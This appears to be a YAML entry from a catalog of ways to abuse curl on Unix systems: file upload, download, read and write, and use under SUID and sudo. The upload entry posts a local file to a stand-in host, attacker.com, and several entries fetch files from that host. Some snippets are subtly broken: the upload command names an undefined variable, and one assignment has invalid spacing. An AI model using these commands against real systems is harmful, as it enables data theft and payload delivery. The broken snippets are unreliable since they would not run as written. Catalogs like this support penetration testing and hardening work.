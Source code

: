 ```yaml
---
functions:
  file-upload:
    - description: Send local file with an HTTP POST request. Run an HTTP service on the attacker box to collect the file. Note that the file will be sent as-is, instruct the service to not URL-decode the body. Omit the `@` to send hard-coded data.
      code: |
        URL=http://attacker.com/
        LFILE=file_to_send
        curl -X POST -d @$file_to_send $URL
  file-download:
    - description: Fetch a remote file via HTTP GET request.
      code: |
        URL=http://attacker.com/file_to_get
        LFILE=file_to_save
        curl $URL -o $LFILE
  file-read:
    - description: The file path must be absolute.
      code: |
        LFILE=/tmp/file_to_read
        curl file://$LFILE
  file-write:
    - description: The file path must be absolute.
      code: |
        LFILE = file_to_write
        echo DATA > /tmp/input-file
        curl file:///tmp/input-file -o $LFILE
  suid:
    - description: Fetch a remote file via HTTP GET request.
      code: |
        URL=http://attacker.com/file_to_get
        LFILE=file_to_save
        ./curl $URL -o $LFILE
  sudo:
    - description: Fetch a remote file via HTTP GET request.
      code: |
        URL=http://attacker.com/file_to_get
        LFILE=file_to_save
        sudo curl $URL -o $LFILE
---
```

